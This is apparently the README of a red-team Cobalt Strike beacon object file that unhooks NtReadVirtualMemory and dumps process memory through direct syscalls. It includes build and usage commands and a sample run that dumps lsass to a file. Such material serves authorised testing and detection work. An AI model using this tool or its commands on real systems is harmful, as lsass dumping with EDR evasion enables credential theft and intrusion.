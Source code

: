 ## Static Syscalls Process Dump BOF (64-bit only)

Beacon object file to:
- Unhook NtReadVirtualMemory function.
- Create process memory dump using MiniDumpWriteDump function to specified (or default) location

Syscalls generated using @jthuraisamy's [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2), @FalconForce's [SysWhispers2BOF](https://github.com/FalconForceTeam/SysWhispers2BOF) and @Outflanknl's [InlineWhispers](https://github.com/outflanknl/InlineWhispers).

This is effectively a rough port of @Outflank's [Dumpert](https://github.com/outflanknl/Dumpert) tool. All credit to them for that.

## Compile

```
make
```

## Usage

Aggressor script included with the following command:
- `static_syscalls_dump PID output_file` - Creates a dump for the specified PID at the supplied location.
- `static_syscalls_dump PID` - Not providing an output location will default to "C:\Windows\Temp\PID-[target_pid].dmp" 

> NOTE: BOF is for 64-bit use only.


### Example Output
```
beacon> static_syscalls_dump 4337 C:\Users\user\Desktop\lsass.dmp
[*] Syscalls Process Dump BOF (@ajpc500)
[+] host called home, sent: 8904 bytes
[+] received output:
Using Syscalls for Windows 10 or Server 2016, build number 19041
Dumping PID 4337 to file: C:\Users\user\Desktop\lsass.dmp

[+] received output:
Success!
```